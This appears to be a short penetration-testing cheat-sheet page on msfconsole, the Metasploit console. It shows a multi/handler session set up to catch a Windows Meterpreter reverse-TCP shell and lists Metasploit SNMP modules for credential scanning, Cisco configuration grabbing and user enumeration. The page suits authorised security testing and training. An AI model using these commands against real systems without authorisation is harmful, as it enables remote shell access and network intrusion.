 ```yaml
---
tags: [shell,snmp]
---
```

# msfconsole

=== Info
- **Description**: command line (CLI) interpreter of metasploit framework (msf).
- Version tested: 5.x.x, 6.2.21-dev
- Initial review date: 30/07/2019
- Last update date: 20/11/2022
- [Source](https://github.com/rapid7/metasploit-framework)
- [Rawsec Inventory](https://inventory.raw.pm/tools.html#Metasploit)
===

## Handler

Basic attached multi handler:

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.11.0.204
LHOST => 10.11.0.204
msf5 exploit(multi/handler) > set LPORT 57896
LPORT => 57896
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.0.204:57896
```

## Example of SNMP modules

```
msf >  search snmp

Matching Modules
================

   Name                                               Disclosure Date  Rank    Description
   ----                                               ---------------  ----    -----------
   auxiliary/scanner/misc/oki_scanner                                  normal  OKI Printer Default Login Credential Scanner
   auxiliary/scanner/snmp/aix_version                                  normal  AIX SNMP Scanner Auxiliary Module
   auxiliary/scanner/snmp/cisco_config_tftp                            normal  Cisco IOS SNMP Configuration Grabber (TFTP)
   auxiliary/scanner/snmp/cisco_upload_file                            normal  Cisco IOS SNMP File Upload (TFTP)
   auxiliary/scanner/snmp/snmp_enum                                    normal  SNMP Enumeration Module
   auxiliary/scanner/snmp/snmp_enumshares                              normal  SNMP Windows SMB Share Enumeration
   auxiliary/scanner/snmp/snmp_enumusers                               normal  SNMP Windows Username Enumeration
   auxiliary/scanner/snmp/snmp_login                                   normal  SNMP Community Scanner
   auxiliary/scanner/snmp/snmp_set                                     normal  SNMP Set Module
   auxiliary/scanner/snmp/xerox_workcentre_enumusers                   normal  Xerox WorkCentre User Enumeration (SNMP)
```